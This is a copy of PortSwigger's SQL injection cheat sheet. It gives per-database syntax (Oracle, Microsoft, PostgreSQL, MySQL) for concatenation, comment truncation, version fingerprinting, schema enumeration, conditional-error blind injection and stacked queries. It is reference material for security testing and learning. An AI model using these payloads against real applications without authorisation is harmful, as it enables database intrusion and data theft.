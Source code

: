 
[PORTSWIGGER SQL injection cheat sheet] https://portswigger.net/web-security/sql-injection/cheat-sheet

This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

String concatenation
--------------------

You can concatenate together multiple strings to make a single string.

 Oracle  `'foo'||'bar'` 
 
 Microsoft  `'foo'+'bar'` 
 
 PostgreSQL  `'foo'||'bar'` 
 
 MySQL `'foo' 'bar'` \
`CONCAT('foo','bar')` 

Substring
---------

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

Oracle  `SUBSTR('foobar', 4, 2)` 

Microsoft  `SUBSTRING('foobar', 4, 2)` 

PostgreSQL  `SUBSTRING('foobar', 4, 2)` 

MySQL  `SUBSTRING('foobar', 4, 2)` 

Comments
--------

You can use comments to truncate a query and remove the portion of the original query that follows your input.

Oracle  `--comment\`

Microsoft  `--comment\
/*comment*/` 

PostgreSQL  `--comment\
/*comment*/` 

MySQL  `#comment`\
`-- comment` \
`/*comment*/` 

Database version
----------------

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

Oracle  `SELECT banner FROM v$version\
SELECT version FROM v$instance\` 

Microsoft  `SELECT @@version` 

PostgreSQL  `SELECT version()` 

MySQL  `SELECT @@version` 

Database contents
-----------------

You can list the tables that exist in the database, and the columns that those tables contain.

Oracle  `SELECT * FROM all_tables\
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` 

Microsoft  `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\`

PostgreSQL  `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\`

MySQL  `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` 

Conditional errors
------------------

You can test a single boolean condition and trigger a database error if the condition is true.

Oracle  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual` 
 
Microsoft  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` 
 
PostgreSQL  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END` 

MySQL  `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` 

Batched (or stacked) queries
----------------------------

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

Oracle  `Does not support batched queries.` 

Microsoft  `QUERY-1-HERE; QUERY-2-HERE` 

PostgreSQL  `QUERY-1-HERE; QUERY-2-HERE` 

MySQL  `QUERY-1-HERE; QUERY-2-HERE` 

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.
